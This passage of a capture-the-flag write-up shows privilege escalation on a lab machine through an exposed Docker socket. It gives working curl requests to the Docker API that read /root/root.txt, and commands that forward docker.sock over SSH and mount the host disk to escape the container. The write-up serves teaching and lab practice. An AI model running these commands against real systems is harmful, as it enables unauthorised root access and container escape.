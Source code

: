  ```bash
 ```

5. Next we run another curl command to the docker.sock dameon using exec which executes our command to cat open the first root.txt, you need the id from the command above:

```bash

curl -i -s -X POST \
 -H "Content-Type: application/json" \
 --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/root/root.txt"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' \
http://localhost:8080/containers/3aca3900a312d70b576f0a86856612f8312ad03df5ae14dacb54439b52eafd31/exec

```

6. Now we need to start the container we just ran above which will give us the first root flag:

```bash

curl -i -s -X POST \
 -H 'Content-Type: application/json' \
--data-binary '{"Detach": false,"Tty": false}' \ http://localhost:8080/exec/bfa14df9e363d42620d44d3234314c8997569be6555097ca59a4930e11053719/start

```

- After running this command we get the first root.txt flag: THM{REDACTED}


##### SSH forwarding over the docker.sock

Method 2 skips and simplifies the entire process of privilege escalation and container escape. If we use 

this technique we bypass the need for the above curl commands. I included this to show the process I went t

through and also to show how dangerous it is to expose the docker.sock daemon. Using curl commands we were 

able to read files that were restricted by access permissions and reinforces the need to understand the 

various ways privilege escalation can be accomplished by attackers.


##### Commands to forward the docker.sock daemon over our local host to interact with the container using docker commands

1. Forwarded the /var/run/docker.sock over ssh to localhost and ran the below docker command to gain root. Here is the syntax for the ssh command:
```  ssh -nNT -L localhost:2345:/var/run/docker.sock uzJk6Ry98d8C@10.10.10.127 -p 2222  ```

2. You then need to export the host to another terminal:
```  export DOCKER_HOST=tcp://127.0.0.1:2345  ```

3. Once you have access to the docker daemon via terminal on your machine run this command: ```  docker exec -it 7b884dffa6ae bash  ```

4. Once you have root on container run the following commands to break out of the container by mounting the host systems file structure:
```  mkdir -p /mnt/hola  ```
```  mount /dev/xvda1 /mnt/hola  ```

5. Host file system is now mounted, cd to root and cat open the root.txt.

6.  Important links: https://dejandayoff.com/the-danger-of-exposing-docker.sock/ && https://blog.natem135.com/posts/thm-sweet-tooth-inc/
